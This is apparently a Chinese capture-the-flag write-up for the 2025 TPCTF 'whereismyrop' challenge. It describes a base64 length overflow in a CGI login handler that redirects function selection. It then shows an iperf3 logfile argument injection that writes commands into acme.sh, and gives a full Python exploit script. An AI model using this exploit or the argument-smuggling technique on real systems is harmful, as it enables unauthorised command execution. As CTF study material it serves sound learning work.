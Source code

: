 ```yaml
---
title: 2025tpctf-whereismyrop
date: 2025-3-10
categories: Stack
tag: 赛后诸葛亮
---
```


# 前言
这次比赛感觉还行, 和火箭一起三题出了两题, 另一题相对简单, 堆上的溢出, 主要是逆向难度较低, 所以做出的人很多
这题的门槛感觉就高了一些, 虽然漏洞点并不难理解, 但是估计交互方式卡住了一批人(我也搞了半天, 后来火箭发现login.js提供了交互模板, 配合上逆向就很容易看懂了)

# 题目运行逻辑
题目给了一个docker, 我看了眼start.sh, 启动了一个apache的服务, 然后就是启动basement程序了, 我还以为可以直接跟basement交互, 刚开始看了一会basement, 才发现他的socket是走的文件, 才看到cgi-bin中的login.cgi

所以真正的交互逻辑是向login.cgi发送请求, login.cgi解析后通过libCgi.so中的send_cmd函数向basement发送消息, 等待basement返回, 最后将返回值传回

并且basement中有十二个可以选择的函数, 但是login.cgi中只允许选择login, register, reset_password三个操作

# 漏洞点
漏洞出现在login.cgi中, 在decodeBase64函数中, 解析HTTP_AUTHORIZATION的时候没有限制长度, 所以会出现一个向bss段上的无限写入
选择basement中函数的变量刚好就在后面, 可以被覆盖, 所以通过这个漏洞就可以选择basement中的十二个的函数执行了
![decodeBase64](decodeBase64.png)

还有一个关键就是HTTP_AUTHORIZATION解析得到的值会作为函数执行的参数, 就等于可以控制参数的执行basement的任意函数了

# 调试技巧
本题是在docker内运行, 所以必不可少的是gdbserver调试
主要需要调试的程序有login.cgi, basement两个.
其中basement还好说, 毕竟是长时间运行的, 只要在docker attach到basement进程即可

我刚开始没想到怎么调试login.cgi, 后来火箭提醒我可以设置一个prelogin.cgi, 其中内容写
```sh
#!/bin/bash
gdbserver :9999 /usr/cgi-bin/login.cgi
```
这样每次需要调试login.cgi时, 就访问prelogin.cgi, 然后在docker外部启动gdb, 使用命令target remote:9999即可

# 利用方式
不得不说太神奇了, Linux仙人火箭用basement的iperf3做到了向acme.sh文件中写入命令, 然后再用basement中执行acme.sh命令的函数触发, 就可以做到命令执行
示例:
```sh
iperf3 -s -p 7070 
iperf3 -c 127.0.0.1 -p 7070 -T "cat flag" --logfile /root/.acme.sh/acme.sh
```
在第一行命令启动服务端后, 第二行命令链接本地的服务端, -T是title str, 会将"cat flag"放在每一行输出的头部, --logfile是将输出写到文件里, 就可以向acme.sh写入任意内容
basement中的6和8分别可以控制带参数执行服务端和客户端的iperf3

然后在10, 11, 12中都可以执行acme.sh获取命令执行
最后还被出题人恶心了一把, 真正的flag名字为什么什么flaG什么什么
昨天尝试读flag时试了`*flag*`都不行, 直接给我和火箭看傻了

还好后来火箭又找到一个办法, 用了`find / -maxdepth 1 -fprint /var/www/html/ls.html`得到根目录下所有文件名字

最后再通过`cp *flaG* /var/www/html/flag.html`, 访问`ip:port/flag.html`即可

# exp
```python
import requests
from urllib.parse import quote
import base64
from bs4 import BeautifulSoup
from pwn import *

url_port = '127.0.0.1:7070'

def hack(arg1: str, arg2: str, cmd: int):
    auth_str = arg1.encode() + b':' + arg2.encode() + b':randstr:'
    auth_str = auth_str.ljust(0x200) + p8(cmd)
    b64_auth = base64.b64encode(auth_str).decode('utf-8')
    
    headers = {
        'Authorization': f'Basic {b64_auth}',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    
    login_url = f"http://{url_port}/cgi-bin/login.cgi?reset_password"
    data = f"id={str(id_value)}"
    
    response = requests.post(login_url, headers=headers, data=data)
    print(f"{response.headers}")
    

if __name__ == "__main__":
    id_value = str(111111111111111111111111)
    hack('127.0.0.1', '7070', 6)
    hack('127.0.0.1', '7070 -T "find / -maxdepth 1 -fprint /var/www/html/ls.html #" --logfile /root/.acme.sh/acme.sh', 9)
    hack('127.0.0.1', '7070 -T "cp /*flaG* /var/www/html/flag.html # " --logfile /root/.acme.sh/acme.sh', 9)
    hack(' ', ' ', 11)

```

# 后记
这题叫whereismyrop, 导致我一直非常认真地检查basement中的读入有没有溢出, 结果居然溢出出现在login.cgi, 而且是以并不能rop的形式出现, 也是有些戏剧性了. 蹲一手wp, 不会真的能做到rop吧